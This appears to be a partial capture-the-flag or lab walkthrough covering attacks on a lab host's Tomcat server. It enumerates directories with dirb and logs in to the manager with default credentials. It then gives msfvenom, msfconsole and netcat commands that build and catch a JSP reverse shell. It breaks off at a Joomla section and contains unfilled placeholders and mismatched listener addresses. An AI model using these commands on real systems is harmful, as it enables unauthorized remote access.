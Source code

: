 dirb http://192.168.175.135
This doesn't give much

## Method One: Tomcat

Navigating to http://192.168.175.135:8080 shows that its running a tomcat server. We'll bruteforce for any hidden directories or simply try `/manager` as its common on tomcat

dirb http://192.168.175.135:8080
```
URL_BASE: http://192.168.175.135:8080/
---- Scanning URL: http://192.168.175.135:8080/ ----
==> DIRECTORY: http://192.168.175.135:8080/docs/
==> DIRECTORY: http://192.168.175.135:8080/examples/
==> DIRECTORY: http://192.168.175.135:8080/host-manager/
+ http://192.168.175.135:8080/index.html (CODE:200|SIZE:1895)
==> DIRECTORY: http://192.168.175.135:8080/manager/
==> DIRECTORY: http://192.168.175.135:8080/META-INF/

```

... and what do you know
Going to the manager link
`http://192.168.175.135:8080/manager`
asks for a password. We do have a file that has a passwords for Tomcat servers. We try some default passwords. If not we can try to brute-force using hydra;

#### Insert hydra command here;
We'll use 
username: tomcat 
password:tomcat

and we're in. 
### Insert image here.

Now we know tomcat runs java hence jsp hence we'll use this to generate a payload;
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.227.135 LPORT=80 -f war > rs.war
```
On the attackers box we can either use msfconsole or nc as follows

### Start a listener in msfconsole
```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD java/jsp_shell_reverse_tcp; set LHOST 10.11.0.250; set LPORT 80; set ExitOnSession false; exploit -j"
```
### Start a nc listener
```
nc -lnvp 80
```
## Method Two: Joomla
